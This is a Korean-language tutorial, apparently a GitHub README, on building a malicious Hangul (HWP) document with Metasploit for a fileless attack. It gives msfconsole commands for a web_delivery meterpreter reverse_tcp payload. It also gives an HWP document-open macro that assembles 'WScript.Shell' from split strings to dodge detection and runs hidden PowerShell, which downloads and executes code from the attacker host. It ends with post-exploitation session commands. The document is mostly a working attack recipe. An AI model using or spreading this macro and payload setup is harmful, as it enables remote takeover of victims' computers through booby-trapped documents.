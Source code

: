 # 메타스플로잇(Metasploit)를 사용해 악성한글문서(Hwp)만들어 파일리스(Fileless) 공격하기

- 공격 서버 :smiling_imp: : 칼리 리눅스(Kali Linux amd64)
- 공격 대상 :skull: : 윈도우 서버 2016 (Windows Server 2016)

### 1. :smiling_imp: Metasploit으로 페이로드 생성

metasploit 실행

```
msfconsole
```

![1](https://i.ibb.co/ZGT9LCZ/Fileless-msf-hwp-1.png)

```
use exploit/multi/script/web_delivery
set target 2
set LHOST 192.168.0.0
set payload windows/meterpreter/reverse_tcp
exploit -j
```

![2](https://i.ibb.co/92mwLNq/Fileless-msf-hwp-2.png)

### 2. :smiling_imp: 악성 한글 문서 제작

1. 도구 > 보안 설정 > 보안수준 낮음 설정
2. 스크립트 매크로 > 실행 > 코드 편집
3. 항목 > Document / Open

```
function OnDocument_Open()
{
try{
  wsh = new ActiveXObject("W"+ "S"+ "c"+ "ri"+ "p"+ "t"+ ".S" +"he" +"ll");
  var r ="powershell.exe -nop -w hidden -c $D=new-object net.webclient;$D.proxy=[Net.WebRequest]::GetSystemWebProxy();$D.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $D.downloadstring('http://192.168.0.0:8080/ABCDE')";
  wsh.Run(r,0);
 }
  catch(err){}
}
```

### 3. :skull: 악성 한글 문서 실행
- 사전 조건 : 백신 OFF, 한글 보안수준 낮음 설정, Windows Defender OFF
한글 문서를 열어서 스크립트 코드 실행

![3](https://i.ibb.co/LnN2Y78/image.png)

### 4. :smiling_imp: 세션 연결 성공 후 공격 가능

![4](https://i.ibb.co/JR2k2ry/Fileless-msf-hwp-4.png)

```
sessions
sessions -i num
help

//example
sysinfo
```

![5](https://i.ibb.co/9YxVqmZ/Fileless-msf-hwp-5.png)
